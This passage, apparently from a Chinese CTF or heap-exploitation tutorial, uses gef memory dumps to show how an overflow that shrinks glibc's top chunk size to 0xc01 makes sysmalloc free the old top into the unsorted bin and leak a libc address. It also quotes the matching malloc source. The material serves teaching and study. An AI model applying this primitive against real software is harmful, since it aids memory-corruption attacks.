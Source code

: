 
首先分配一个大小为 0x400 的 chunk：
```
gef➤  x/4gx p1-0x10
0x602000:	0x0000000000000000	0x0000000000000401  <-- chunk p1
0x602010:	0x0000000000000000	0x0000000000000000
gef➤  x/4gx p1-0x10+0x400
0x602400:	0x0000000000000000	0x0000000000020c01  <-- top chunk
0x602410:	0x0000000000000000	0x0000000000000000
```
默认情况下，top chunk 大小为 0x21000，减去 0x400，所以此时的大小为 0x20c00，另外 PREV_INUSE 被设置。

现在假设存在溢出漏洞，可以修改 top chunk 的数据，于是我们将 size 字段修改为 0xc01。这样就可以满足上面所说的条件：
```
gef➤  x/4gx p1-0x10+0x400
0x602400:	0x0000000000000000	0x0000000000000c01  <-- top chunk
0x602410:	0x0000000000000000	0x0000000000000000
```

紧接着，申请一块大内存，此时由于修改后的 top chunk size 不能满足需求，则调用 sysmalloc 的第一种方法扩充 top chunk，结果是在 old\_top 后面新建了一个 top chunk 用来存放 new\_top，然后将 old\_top 释放，即被添加到了 unsorted bin 中：
```
gef➤  x/4gx p1-0x10+0x400
0x602400:	0x0000000000000000	0x0000000000000be1  <-- old top chunk [be freed]
0x602410:	0x00007ffff7dd1b78	0x00007ffff7dd1b78      <-- fd, bk pointer
gef➤  x/4gx p1-0x10+0x400+0xbe0
0x602fe0:	0x0000000000000be0	0x0000000000000010  <-- fencepost chunk 1
0x602ff0:	0x0000000000000000	0x0000000000000011  <-- fencepost chunk 2
gef➤  x/4gx p2-0x10
0x623000:	0x0000000000000000	0x0000000000001011  <-- chunk p2
0x623010:	0x0000000000000000	0x0000000000000000
gef➤  x/4gx p2-0x10+0x1010
0x624010:	0x0000000000000000	0x0000000000020ff1  <-- new top chunk
0x624020:	0x0000000000000000	0x0000000000000000
gef➤  heap bins unsorted 
[ Unsorted Bin for arena 'main_arena' ]
[+] unsorted_bins[0]: fw=0x602400, bk=0x602400
 →   Chunk(addr=0x602410, size=0xbe0, flags=PREV_INUSE)
```
于是就泄漏出了 libc 地址。另外可以看到 old top chunk 被缩小了 0x20，缩小的空间被用于放置 fencepost chunk。此时的堆空间应该是这样的：
```
+---------------+
|       p1      |
+---------------+
|  old top-0x20 |
+---------------+
|  fencepost 1  |
+---------------+
|  fencepost 2  |
+---------------+
|      ...      |
+---------------+
|       p2      |
+---------------+
|    new top    |
+---------------+
```
详细过程如下：
```c
                  if (old_size != 0)
                    {
                      /*
                         Shrink old_top to insert fenceposts, keeping size a
                         multiple of MALLOC_ALIGNMENT. We know there is at least
                         enough space in old_top to do this.
                       */
                      old_size = (old_size - 4 * SIZE_SZ) & ~MALLOC_ALIGN_MASK;
```